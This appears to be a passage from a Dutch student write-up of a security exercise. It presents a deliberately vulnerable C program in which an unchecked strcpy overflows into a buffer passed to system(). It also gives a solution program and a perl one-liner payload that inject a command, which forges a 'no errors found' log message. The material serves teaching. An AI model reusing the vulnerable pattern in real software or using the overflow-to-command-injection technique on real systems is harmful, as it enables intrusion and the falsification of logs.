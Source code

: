 \begin{enumerate}
  \item x/s command
  	\begin{enumerate}
  	\item 0xbffff670: ``echo \textbackslash{}``\textbackslash{}nEPIC TEST\textbackslash{}n\textbackslash{}'' ''
  	\end{enumerate}
  \item Succes. EPIC TEST verschijnt op het scherm.
  \item De opgave zegt dat we nu zelf een programma moeten schrijven die de juiste output genereert.
  \item Een voorbeeldscript:
\end{enumerate}

\begin{lstlisting}
oplossing.c
-----------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* 

Resultaat:
-=-=-=-=-=-
echo "Mail-server: no errors found"
*/

// ./a.out "$(perl -e 'print "A"x64 . "echo \"\nEPIC TEST\n\"\"')"    

int main(int argc, char *argv[]){
	if(argc != 1){
		printf("\nGebruik: %s \n", argv[0]);
		exit(0);
	}

	char command[] = "./log-analyzer \"$(perl -e 'print \"\x41\"x64 . \"echo \\\"\\n";
	strcat(command, "Mail-server: no errors found");
	strcat(command, "\\n\\\"\"')\"");

	system(command);
}

OUTPUT:
	Mail-server: no errors found
\end{lstlisting}

\begin{lstlisting}
log-analyzer.c
--------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char*argv[]){
	if(argc != 2){
		printf("Gebruik: %s <Server-naam>\n",argv[0]);
		exit(0);
	}

	/* Controleren of server wel bestaat */
	checkServerStatus(argv[1]);
}

int checkServerStatus(char *servernaam){
	char command[75];
	char name[50];

	if(strcmp(servernaam, "Mail-server") == 0){
		strcpy(command, "echo \"\n[ERROR]: Mail-server - r0123456 exploited your mail-server\n\"");
	}else{
		strcpy(command, "echo \"\n[ERROR]: Mail-server is the only registered server\n\"");
	}

	strcpy(name, servernaam);

	system(command);

	return (0);
}
\end{lstlisting}